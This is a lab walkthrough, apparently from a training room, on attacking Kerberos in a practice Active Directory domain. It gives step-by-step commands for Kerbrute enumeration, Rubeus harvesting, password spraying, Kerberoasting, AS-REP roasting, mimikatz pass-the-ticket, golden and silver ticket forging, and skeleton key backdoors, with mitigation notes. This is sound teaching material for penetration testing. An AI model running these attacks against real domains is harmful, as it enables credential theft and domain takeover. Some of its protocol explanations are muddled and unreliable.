# Attacking Kerberos

* **Service Long Term Secret Key (Service LT Key)** - The service key is based on the service account. It is used to encrypt the service portion of the service ticket and sign the PAC.
* **Session Key** - Issued by the KDC when a **TGT** is issued. The user will provide the session key to the KDC along with the **TGT** when requesting a service ticket.
* **Privilege Attribute Certificate (PAC)** - The PAC holds all of the user's relevant information, it is sent along with the **TGT** to the KDC to be signed by the Target LT Key and the KDC LT Key in order to validate the user.

### AS-REQ w/ Pre-Authentication In Detail -

The AS-REQ step in Kerberos authentication starts when a user requests a **TGT** from the KDC. In order to validate the user and create a **TGT** for the user, the KDC must follow these exact steps. The first step is for the user to encrypt a timestamp NT hash and send it to the AS. The KDC attempts to decrypt the timestamp using the NT hash from the user, if successful the KDC will issue a **TGT** as well as a session key for the user.

### Ticket Granting Ticket Contents -

In order to understand how the service tickets get created and validated, we need to start with where the tickets come from; the **TGT** is provided by the user to the KDC, in return, the KDC validates the **TGT** and returns a service ticket.

### Service Ticket Contents -

To understand how Kerberos authentication works you first need to understand what these tickets contain and how they're validated. A service ticket contains two portions: the service provided portion and the user-provided portion. I'll break it down into what each portion contains.

* Service Portion: User Details, Session Key, Encrypts the ticket with the service account **NTLM** hash.
* User Portion: Validity Timestamp, Session Key, Encrypts with the **TGT** session key.



### **Kerberos** Authentication Overview -



**AS-REQ:** - 1.) The client requests an Authentication Ticket or Ticket Granting Ticket (**TGT**).

**AS-REP:** - 2.) The Key Distribution Center verifies the client and sends back an encrypted **TGT**.

**TGS-REQ:** - 3.) The client sends the encrypted **TGT** to the Ticket Granting Server (TGS) with the Service Principal Name (SPN) of the service the client wants to access.

**TGS-REP:** - 4.) The Key Distribution Center (KDC) verifies the **TGT** of the user and that the user has access to the service, then sends a valid session key for the service to the client.

**AP-REQ:** - 5.) The client requests the service and sends the valid session key to prove the user has access.

**AP-REP:** - 6.) The service grants access

### **Kerberos** Tickets Overview -

The main ticket you will receive is a ticket-granting ticket (**TGT**). These can come in various forms, such as a .kirbi for Rubeus and .ccache for Impacket. A ticket is typically base64 encoded and can be used for multiple attacks.

The ticket-granting ticket is only used to get service tickets from the KDC. When requesting a **TGT** from the KDC, the user will authenticate with their credentials to the KDC and request a ticket. The server will validate the credentials, create a **TGT** and encrypt it using the krbtgt key. The encrypted **TGT** and a session key will be sent to the user.

When the user needs to request a service ticket, they will send the **TGT** and the session key to the KDC, along with the service principal name (SPN) of the service they wish to access. The KDC will validate the **TGT** and session key. If they are correct, the KDC will grant the user a service ticket, which can be used to authenticate to the corresponding service.

### Attack Privilege Requirements -

* Kerbrute Enumeration - No domain access required
* Pass the Ticket - Access as a user to the domain required
* Kerberoasting - Access as any user required
* AS-REP Roasting - Access as any user required
* Golden Ticket - Full domain compromise (domain admin) required
* Silver Ticket - Service hash required
* Skeleton Key - Full domain compromise (domain admin) required

## Enumeration w/ Kerbrute

Kerbrute is a popular enumeration tool used to brute-force and enumerate valid active-directory users by abusing the **Kerberos** pre-authentication.

For more information on enumeration using Kerbrute check out the Attacktive Directory document by Sq00ky - [https://tryhackme.com/room/attacktivedirectory](https://tryhackme.com/room/attacktivedirectory)

You need to add the **DNS** domain name along with the machine IP to /etc/hosts inside of your attacker machine or these attacks will not work for you - `10.10.142.3  CONTROLLER.local`

### Abusing Pre-Authentication Overview -

By brute-forcing Kerberos pre-authentication, you do not trigger the account failed to log on event which can throw up red flags to blue teams. When brute-forcing through Kerberos you can brute-force by only sending a single **UDP** frame to the KDC allowing you to enumerate the users on the domain from a wordlist.

### Kerbrute Installation -

1.) Download a precompiled binary for your **OS** - [https://github.com/ropnop/kerbrute/releases](https://github.com/ropnop/kerbrute/releases)

2.) Rename kerbrute_linux_amd64 to kerbrute

3.) `chmod +x kerbrute` - make kerbrute executable

Enumerating Users w/ Kerbrute -

Enumerating users allows you to know which user accounts are on the target domain and which accounts could potentially be used to access the network.

1.) cd into the directory that you put Kerbrute

2.) Download the wordlist to enumerate with [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/User.txt)

3.) `./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt` - This will brute force user accounts from a domain controller using a supplied wordlist



Now enumerate on your own and find the rest of the users and more importantly service accounts.

## Harvesting & Brute-Forcing Tickets w/ Rubeus

To start this task you will need to **RDP** or **SSH** into the machine your credentials are -

Username: Administrator

Password: P@$$W0rd

Domain: controller.local

Your Machine IP is `10.10.142.3`

Rubeus is a powerful tool for attacking **Kerberos**. Rubeus is an adaptation of the kekeo tool and developed by HarmJ0y the very well known active directory guru.

Rubeus has a wide variety of attacks and features that allow it to be a very versatile tool for attacking **Kerberos**. Just some of the many tools and attacks include overpass the hash, ticket requests and renewals, ticket management, ticket extraction, harvesting, pass the ticket, AS-REP Roasting, and Kerberoasting.

The tool has way too many attacks and features for me to cover all of them so I'll be covering only the ones I think are most crucial to understand how to attack Kerberos however I encourage you to research and learn more about Rubeus and its whole host of attacks and features here - [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

Rubeus is already compiled and on the target machine.

### Harvesting Tickets w/ Rubeus -

Harvesting gathers tickets that are being transferred to the KDC and saves them for use in other attacks such as the pass the ticket attack.

1.) `cd Downloads` - navigate to the directory Rubeus is in

2.) `Rubeus.exe harvest /interval:30` - This command tells Rubeus to harvest for TGTs every 30 seconds



### Brute-Forcing / Password-Spraying w/ Rubeus -

Rubeus can both brute force passwords as well as password spray user accounts. When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account. In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a **TGT** that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file. You can add the IP and domain name to the hosts file from the machine by using the echo command:

`echo 10.10.142.3 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts`

1.) `cd Downloads` - navigate to the directory Rubeus is in

2.) `Rubeus.exe brute /password:Password1 /noticket` - This will take a given password and "spray" it against all found users then give the .kirbi **TGT** for that user



Be mindful of how you use this attack as it may lock you out of the network depending on the account lockout policies.

## Kerberoasting w/ Rubeus & Impacket

In this task we'll be covering one of the most popular Kerberos attacks - Kerberoasting. Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password. If the service has a registered SPN then it can be Kerberoastable however the success of the attack depends on how strong the password is and if it is trackable as well as the privileges of the cracked service account. To enumerate Kerberoastable accounts I would suggest a tool like BloodHound to find all Kerberoastable accounts, it will allow you to see what kind of accounts you can kerberoast if they are domain admins, and what kind of connections they have to the rest of the domain. That is a bit out of scope for this room but it is a great tool for finding accounts to target.

In order to perform the attack, we'll be using both Rubeus as well as Impacket so you understand the various tools out there for Kerberoasting. There are other tools out there such a kekeo and Invoke-Kerberoast but I'll leave you to do your own research on those tools.

I have already taken the time to put Rubeus on the machine for you, it is located in the downloads folder.

### Method 1 - Rubeus

#### Kerberoasting w/ Rubeus -

1.) `cd Downloads` - navigate to the directory Rubeus is in

2.) `Rubeus.exe kerberoast` This will dump the **Kerberos** hash of any kerberoastable users



copy the hash onto your attacker machine and put it into a .txt file so we can crack it with hashcat

I have created a modified rockyou wordlist in order to speed up the process download it [here](https://github.com/Cryilllic/Active-Directory-Wordlists/blob/master/Pass.txt)

3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

### Method 2 - Impacket

#### Impacket Installation -

Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20

1.) `cd /opt` navigate to your preferred directory to save tools in

2.) download the precompiled package from [https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19)

3.) `cd Impacket-0.9.19` navigate to the impacket directory

4.) `pip install .` - this will install all needed dependencies

#### Kerberoasting w/ Impacket -

1.) `cd /usr/share/doc/python3-impacket/examples/` - navigate to where GetUserSPNs.py is located

2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.142.3 -request` - this will dump the **Kerberos** hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.

3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

#### What Can a Service Account do?

After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

### Mitigation - Defending the Forest

#### Kerberoasting Mitigation -

* Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
* Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

## AS-REP Roasting w/ Rubeus

Very similar to Kerberoasting, AS-REP Roasting dumps the krbasrep5 hashes of user accounts that have **Kerberos** pre-authentication disabled. Unlike Kerberoasting these users do not have to be service accounts the only requirement to be able to AS-REP roast a user is the user must have pre-authentication disabled.

We'll continue using Rubeus same as we have with kerberoasting and harvesting since Rubeus has a very simple and easy to understand command to AS-REP roast and attack users with Kerberos pre-authentication disabled. After dumping the hash from Rubeus we'll use hashcat in order to crack the krbasrep5 hash.

There are other tools out as well for AS-REP Roasting such as kekeo and Impacket's GetNPUsers.py. Rubeus is easier to use because it automatically finds AS-REP Roastable users whereas with GetNPUsers you have to enumerate the users beforehand and know which users may be AS-REP Roastable.

I have already compiled and put Rubeus on the machine.

### AS-REP Roasting Overview -

During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a **TGT** for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted **TGT** that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

### Dumping KRBASREP5 Hashes w/ Rubeus -

1.) `cd Downloads` - navigate to the directory Rubeus is in

2.) `Rubeus.exe asreproast` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.



### Crack those Hashes w/ hashcat -

1.) Transfer the hash from the target machine over to your attacker machine and put the hash into a txt file

2.) Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User.....

Use the same wordlist that you downloaded in task 4

3.) `hashcat -m 18200 hash.txt Pass.txt` - crack those hashes! Rubeus AS-REP Roasting uses hashcat mode 18200



### AS-REP Roasting Mitigations -

* Have a strong password policy. With a strong password, the hashes will take longer to crack making this attack less effective
* Don't turn off Kerberos Pre-Authentication unless it's necessary there's almost no other way to completely mitigate this attack other than keeping Pre-Authentication on.

## Pass the Ticket w/ mimikatz

Mimikatz is a very popular and powerful post-exploitation tool most commonly used for dumping user credentials inside of an active directory network however we'll be using mimikatz in order to dump a **TGT** from LSASS memory

This will only be an overview of how the pass the ticket attacks work as **THM** does not currently support networks but I challenge you to configure this on your own network.

You can run this attack on the given machine however you will be escalating from a domain admin to a domain admin because of the way the domain controller is set up.

### Pass the Ticket Overview -

Pass the ticket works by dumping the TGT from the LSASS memory of the machine. The Local Security Authority Subsystem Service (LSASS) is a memory process that stores credentials on an active directory server and can store Kerberos ticket along with other credential types to act as the gatekeeper and accept or reject the credentials provided. You can dump the Kerberos Tickets from the LSASS memory just like you can dump hashes. When you dump the tickets with mimikatz it will give us a .kirbi ticket which can be used to gain domain admin if a domain admin ticket is in the LSASS memory. This attack is great for privilege escalation and lateral movement if there are unsecured domain service account tickets laying around. The attack allows you to escalate to domain admin if you dump a domain admin's ticket and then impersonate that ticket using mimikatz PTT attack allowing you to act as that domain admin. You can think of a pass the ticket attack like reusing an existing ticket were not creating or destroying any tickets here were simply reusing an existing ticket from another user on the domain and impersonating that ticket.



### Prepare Mimikatz & Dump Tickets -

You will need to run the command prompt as an administrator: use the same credentials as you did to get into the machine. If you don't have an elevated command prompt mimikatz will not work properly.

1.) `cd Downloads` - navigate to the directory mimikatz is in

2.) `mimikatz.exe` - run mimikatz

3.) `privilege::debug` - Ensure this outputs [output '20' OK] if it does not that means you do not have the administrator privileges to properly run mimikatz



4.) `sekurlsa::tickets /export` - this will export all of the .kirbi tickets into the directory that you are currently in

At this step you can also use the base 64 encoded tickets from Rubeus that we harvested earlier

When looking for which ticket to impersonate I would recommend looking for an administrator ticket from the krbtgt just like the one outlined in red above.

### Pass the Ticket w/ Mimikatz

Now that we have our ticket ready we can now perform a pass the ticket attack to gain domain admin privileges.

1.) `kerberos::ptt <ticket>` - run this command inside of mimikatz with the ticket that you harvested from earlier. It will cache and impersonate the given ticket

2.) `klist` - Here were just verifying that we successfully impersonated the ticket by listing our cached tickets.

We will not be using mimikatz for the rest of the attack.



3.) You now have impersonated the ticket giving you the same rights as the TGT you're impersonating. To verify this we can look at the admin share.

Note that this is only a POC to understand how to pass the ticket and gain domain admin the way that you approach passing the ticket may be different based on what kind of engagement you're in so do not take this as a definitive guide of how to run this attack.

### Pass the Ticket Mitigation -

Let's talk blue team and how to mitigate these types of attacks.

* Don't let your domain admins log onto anything except the domain controller - This is something so simple however a lot of domain admins still log onto low-level computers leaving tickets around that we can use to attack and move laterally with.

## Golden/Silver Ticket Attacks w/ mimikatz

Mimikatz is a very popular and powerful post-exploitation tool most commonly used for dumping user credentials inside of an active directory network however well be using mimikatz in order to create a silver ticket.

A silver ticket can sometimes be better used in engagements rather than a golden ticket because it is a little more discreet. If stealth and staying undetected matter then a silver ticket is probably a better option than a golden ticket however the approach to creating one is the exact same. The key difference between the two tickets is that a silver ticket is limited to the service that is targeted whereas a golden ticket has access to any **Kerberos** service.

A specific use scenario for a silver ticket would be that you want to access the domain's SQL server however your current compromised user does not have access to that server. You can find an accessible service account to get a foothold with by kerberoasting that service, you can then dump the service hash and then impersonate their TGT in order to request a service ticket for the SQL service from the KDC allowing you access to the domain's **SQL** server.

### KRBTGT Overview

In order to fully understand how these attacks work you need to understand what the difference between a KRBTGT and a **TGT** is. A KRBTGT is the service account for the KDC this is the Key Distribution Center that issues all of the tickets to the clients. If you impersonate this account and create a golden ticket form the KRBTGT you give yourself the ability to create a service ticket for anything you want. A **TGT** is a ticket to a service account issued by the KDC and can only access that service the **TGT** is from like the SQLService ticket.

### Golden/Silver Ticket Attack Overview -

A golden ticket attack works by dumping the ticket-granting ticket of any user on the domain this would preferably be a domain admin however for a golden ticket you would dump the krbtgt ticket and for a silver ticket, you would dump any service or domain admin ticket. This will provide you with the service/domain admin account's SID or security identifier that is a unique identifier for each user account, as well as the NTLM hash. You then use these details inside of a mimikatz golden ticket attack in order to create a **TGT** that impersonates the given service account information.

### Dump the krbtgt hash -

1.) `cd downloads && mimikatz.exe` - navigate to the directory mimikatz is in and run mimikatz

2.) `privilege::debug` - ensure this outputs [privilege '20' ok]

3.) `lsadump::lsa /inject /name:krbtgt` - This will dump the hash as well as the security identifier needed to create a Golden Ticket. To create a silver ticket you need to change the /name: to dump the hash of either a domain admin account or a service account such as the SQLService account.

### Create a Golden/Silver Ticket -

1.) `Kerberos::golden /user:Administrator /domain:controller.local /sid: /krbtgt: /id:` - This is the command for creating a golden ticket to create a silver ticket simply put a service **NTLM** hash into the krbtgt slot, the sid of the service account into sid, and change the id to 1103.

I'll show you a demo of creating a golden ticket it is up to you to create a silver ticket.

### Use the Golden/Silver Ticket to access other machines -

1.) `misc::cmd` - this will open a new elevated command prompt with the given ticket in mimikatz.

2.) Access machines that you want, what you can access will depend on the privileges of the user that you decided to take the ticket from however if you took the ticket from krbtgt you have access to the ENTIRE network hence the name golden ticket; however, silver tickets only have access to those that the user has access to if it is a domain admin it can almost access the entire network however it is slightly less elevated from a golden ticket.



This attack will not work without other machines on the domain however I challenge you to configure this on your own network and try out these attacks.

## Kerberos Backdoors w/ mimikatz

Along with maintaining access using golden and silver tickets mimikatz has one other trick up its sleeves when it comes to attacking **Kerberos**. Unlike the golden and silver ticket attacks a **Kerberos** backdoor is much more subtle because it acts similar to a rootkit by implanting itself into the memory of the domain forest allowing itself access to any of the machines with a master password.

The **Kerberos** backdoor works by implanting a skeleton key that abuses the way that the AS-REQ validates encrypted timestamps. A skeleton key only works using **Kerberos** RC4 encryption.

The default hash for a mimikatz skeleton key is *60BA4FCADC466C7A033C178194C03DF6* which makes the password -" *mimikatz* "

This will only be an overview section and will not require you to do anything on the machine however I encourage you to continue yourself and add other machines and test using skeleton keys with mimikatz.

### Skeleton Key Overview -

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

### Preparing Mimikatz -

1.) `cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz

2.) `privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access



### Installing the Skeleton Key w/ mimikatz -

1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful



### Accessing the forest -

The default credentials will be: " *mimikatz* "

example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.

## Conclusion

We've gone through everything from the initial enumeration of **Kerberos**, dumping tickets, pass the ticket attacks, kerberoasting, AS-REP roasting, implanting skeleton keys, and golden/silver tickets. I encourage you to go out and do some more research on these different types of attacks and really find what makes them tick and find the multitude of different tools and frameworks out there designed for attacking **Kerberos** as well as active directory as a whole.

You should now have the basic knowledge to go into an engagement and be able to use **Kerberos** as an attack vector for both exploitations as well as privilege escalation.

Know that you have the knowledge needed to attack **Kerberos** I encourage you to configure your own active directory lab on your network and try out these attacks on your own to really get an understanding of how these attacks work.

Resources -

* [https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a](https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
* [https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1](https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1)
* [https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [https://www.varonis.com/blog/kerberos-authentication-explained/](https://www.varonis.com/blog/kerberos-authentication-explained/)
* [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don&#39;t-Get-It-wp.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf)
* [https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1493862736.pdf](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1493862736.pdf)
* [https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
